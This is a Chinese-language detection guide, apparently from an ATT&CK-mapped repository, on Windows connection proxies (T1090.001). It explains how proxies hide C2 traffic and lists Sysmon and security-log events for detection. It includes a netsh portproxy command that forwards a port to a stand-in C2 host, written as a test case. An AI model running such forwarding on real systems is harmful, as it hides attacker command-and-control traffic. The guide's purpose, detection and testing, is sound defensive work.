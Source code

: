 # T1090-001-Win-链接代理

## 描述

攻击者利用连接代理（T1090.001）在系统间重定向网络流量或作为与命令与控制（C2）服务器通信的中介，以隐藏真实通信目标并规避检测。代理可用于管理C2通信、减少出站连接数量、增强连接弹性，或利用受信任路径（如内网通信）避免怀疑。常见工具包括`HTRAN`、`ZXProxy`、`ZXPortMap`，以及Windows内置工具如`netsh`。

- **外部连接代理**：攻击者使用外部受损系统、云资源或VPS作为代理，将受害者流量重定向至C2服务器，掩盖C2真实IP。受害者系统直接与公网代理通信，降低追踪可能性。
- **内部连接代理**：攻击者在内网使用受损系统作为代理，合并内部流量并转发至外部C2，隐藏恶意流量来源。也可用于内网中继，减少广播流量。

检测重点在于监控异常端口转发行为、代理工具执行及非典型网络流量（如内网主机与公网代理的频繁连接）。

## 测试案例

1. **Netsh端口转发**  
   使用`netsh interface portproxy`配置端口转发，模拟内网主机通过代理与公网C2通信。  
2. **第三方代理工具**  
   使用`HTRAN`或类似工具重定向流量至外部C2服务器。  
3. **内网流量中继**  
   配置内网主机作为代理，将其他主机的流量转发至外部服务器。  

### 示例命令
- **Netsh端口转发**（需管理员权限）：
  ```cmd
  netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=c2.example.com
  ```
- **验证转发**：
  ```cmd
  netsh interface portproxy show all
  ```
- **清理**：
  ```cmd
  netsh interface portproxy delete v4tov4 listenport=8080 listenaddress=0.0.0.0
  ```

## 检测日志

**Windows安全日志**  
- **事件ID 4688**：记录`netsh.exe`或其他代理工具的进程创建及命令行参数。  

**Sysmon日志**  
- **事件ID 1**：记录进程创建，捕获`netsh.exe`或代理工具的命令行。  
- **事件ID 3**：记录网络连接，捕获代理转发的流量（源/目标IP、端口）。  
- **事件ID 7**：记录加载的模块，检测代理工具的DLL。  

**网络日志**  
- 捕获异常流量（如内网主机通过非标准端口与公网通信）。  

**配置日志记录**  
- 启用命令行参数记录：`计算机配置 > 管理模板 > 系统 > 审核进程创建 > 在进程创建事件中加入命令行 > 启用`。  
- 启用Sysmon配置：监控`netsh.exe`及网络连接。  
- 配置防火墙或IDS/IPS记录非预期出站流量（如8080端口）。  
